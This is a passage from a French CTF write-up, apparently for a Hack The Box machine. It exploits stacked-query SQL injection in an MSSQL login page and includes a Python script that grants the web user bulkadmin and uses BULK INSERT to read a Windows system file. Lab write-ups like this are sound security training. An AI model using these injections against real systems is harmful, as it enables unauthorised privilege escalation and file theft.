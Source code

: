 Malheureusement les tentatives de casser ces hashs ont échouées, nous laissant supposer qu'une fois de plus on était sur le mauvais chemin.  

Hadouken
--------

Il est alors temps de se pencher sérieusement sur les stacked-queries et le résultat est prometteur.  

Ainsi si on passe la requête *;SELECT @@version* on obtient la réponse espérée (pas d'erreur interne au serveur) alors qu'avec *;SELECT version()* (qui est spécifique MySQL) on obtient une erreur 500. *SQLmap* semble donc se tromper en ne voyant pas la possibilité de stack-er les requêtes...  

L'étape évidente suivante est de se servir de [xp\_cmdshell](https://docs.microsoft.com/fr-fr/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-2017) pour exécuter des commandes sur le serveur... mais ça ne marche pas :| Même en appelant préalablement *sp\_reconfigure* (voir [cette cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) pour les différentes astuces possibles).  

Ce CTF nous fait la vie dure ! Du coup on peut se reporter aux autres fonctionnalités de MSSQL comme [BULK INSERT](https://docs.microsoft.com/fr-fr/sql/t-sql/statements/bulk-insert-transact-sql?view=sql-server-2017) pour lire le contenu de fichiers et voir où cela nous mène.  

J'ai écrit le script *stacked.py* qui m'a servi de squelette pour placer les différentes commandes à exécuter tout au long du CTF. L'exemple suivant permet de charger le contenu du fichier *win.ini* dans la table *yoloout2* que l'on a préalablement créé après s'être octroyé les droits *BULK INSERT* :  

```python
from urllib.parse import quote
import requests
from time import sleep

data = {
    "username": "admin",
    "password": "test",
    "logintype": 1,
    "rememberme": "ON",
    "B1": "LogIn"
}

cmds = [
        "1;ALTER SERVER ROLE bulkadmin ADD MEMBER web;",
        "1;DROP TABLE yoloout2; CREATE TABLE yoloout2 (content nvarchar(4000)); BULK INSERT yoloout2 FROM 'c:\\windows\\win.ini';"
]

for cmd in cmds:
    data["logintype"] = cmd

    response = requests.post(
        "http://members.streetfighterclub.htb/old/verify.asp",
        headers={"Referer": "http://members.streetfighterclub.htb/old/login.asp"},
        data=data,
        allow_redirects=False
    )

    print(response.status_code, cmd)
    sleep(0.1)
```
